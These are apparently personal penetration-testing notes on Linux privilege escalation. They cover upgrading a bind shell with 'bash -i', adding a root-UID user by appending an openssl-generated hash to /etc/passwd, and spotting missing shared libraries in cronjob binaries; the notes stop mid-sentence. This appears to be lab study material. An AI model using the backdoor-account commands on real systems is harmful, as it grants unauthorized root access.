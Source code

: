 # TTYs

If your terminal looks weird like this, all you have to do to fix it is `bash -i`. It will give you an interactive bash shell.

![Untitled](Linux%20Tips%200ac4056c2acc4d4fab0a79667bee9186/Untitled%204.png)

Idk what this is here, but I got it after a bind shell in ClamAV where the commands in the perl script were this

![Untitled](Linux%20Tips%200ac4056c2acc4d4fab0a79667bee9186/Untitled%205.png)

# Write to /etc/passwd

If you have write access to `/etc/passwd`, you can add your own user with root privileges.

```abap
$ openssl passwd -1 -salt virusspec pass123 # note: must use your username as the salt
$1$virusspe$4YouPJf89m7D8Nk48Qvjn.
$ echo 'virusspec:$1$virusspe$4YouPJf89m7D8Nk48Qvjn.:0:0:root:/root:/bin/bash' >> /etc/passwd
```

# List shared libraries

### Cronjobs that are running a binary

```jsx
$ ldd /usr/bin/log-sweeper
linux-vdso.so.1 =>  (0x00007ffffffed000)
        utils.so => not found
        libc.so.6 => /lib64/libc.so.6 (0x00007f2025bbc000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f2025f8a000)

```

If a cronjob is running, you might be able to see what path it runs in `/var/spool/anacron`. If you have write access to one of them, you can insert

```jsx
/var/spool/anacron:
total 4
drwxr-xr-x. 2 root root 63 Sep  4  2020 .
drwxr-xr-x. 8 root root 87 Sep  4  2020 ..
-rw-------. 1 root root  9 Sep  4  2020 cron.daily
-rw-------. 1 root root  0 Sep  4  2020 cron.monthly
-rw-------. 1 root root  0 Sep  4  2020 cron.weekly
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
LD_LIBRARY_PATH=/usr/lib:/usr/lib64:/usr/local/lib/dev:/usr/local/lib/utils
MAILTO=""
```
